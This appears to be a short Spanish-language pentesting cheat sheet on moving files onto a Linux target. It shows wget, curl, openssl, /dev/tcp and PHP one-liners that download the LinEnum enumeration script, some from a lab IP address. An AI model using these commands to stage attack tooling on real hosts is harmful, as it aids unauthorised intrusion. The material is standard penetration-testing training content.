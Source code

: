# File Transfer - Linux

## wget / curl

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

```bash
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

## OpenSSL

- Crear certificado
  
```bash
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

- Iniciar el servidor

```bash
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

- Descargar el archivo
  
```bash
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Bash /dev/tcp

- Conectar al servidor web del objetivo

```bash
exec 3<>/dev/tcp/10.10.10.32/80
```

- Efectuar un http request

```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

- Imprimir la respuesta

```
cat <&3
```

## PHP

- file_get_contents()

```bash
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

